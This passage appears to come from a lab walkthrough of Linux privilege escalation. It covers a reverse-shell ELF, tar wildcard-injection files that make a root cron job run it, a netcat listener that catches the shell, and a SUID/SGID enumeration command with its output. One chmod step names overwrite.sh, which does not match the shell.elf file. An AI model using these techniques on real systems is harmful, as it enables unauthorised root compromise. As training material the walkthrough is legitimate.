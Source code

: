The output will be similar to
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: shell.elf{% endraw %}{% endcapture %} {% include code.html code=code %}

Copy the created `shell.elf` file to the target server using `scp shell.elf user@<ip>:/home/user/`.

Make the file executable using `chmod +x /home/user/overwrite.sh` and create following files, so when `tar` gets executed, the `reverse shell binary` will spawn a `privilege shell`.
{% capture code %}{% raw %}touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=shell.elf{% endraw %}{% endcapture %} {% include code.html code=code %}

Create a netcat listener using `rlwrap -cAr nc -lnvp 443`, and when cron runs, `reverse shell` will be spawned.
{% capture code %}{% raw %}Listening on [0.0.0.0] (family 0, port 443)
Connection from <target-ip> 45211 received!
bash: no job control in this shell{% endraw %}{% endcapture %} {% include code.html code=code %}


## Task 11 - SUID / SGID Executables - Known Exploits

Use these links as references.
- [Exploitdb reference](https://www.exploit-db.com/){:target="_blank"}

Find the files which are set with `suid` and `sgid` using `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`. The output will be similar to
{% capture code %}{% raw %}-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10592 Feb 15  2016 /usr/lib/pt_chown
-rwsr-xr-x 1 root root 36640 Oct 14  2010 /bin/ping6
-rwsr-xr-x 1 root root 34248 Oct 14  2010 /bin/ping
-rwsr-xr-x 1 root root 78616 Jan 25  2011 /bin/mount
-rwsr-xr-x 1 root root 34024 Feb 15  2011 /bin/su
-rwsr-xr-x 1 root root 53648 Jan 25  2011 /bin/umount
-rwxr-sr-x 1 root shadow 31864 Oct 17  2011 /sbin/unix_chkpwd
-rwsr-xr-x 1 root root 94992 Dec 13  2014 /sbin/mount.nfs{% endraw %}{% endcapture %} {% include code.html code=code %}
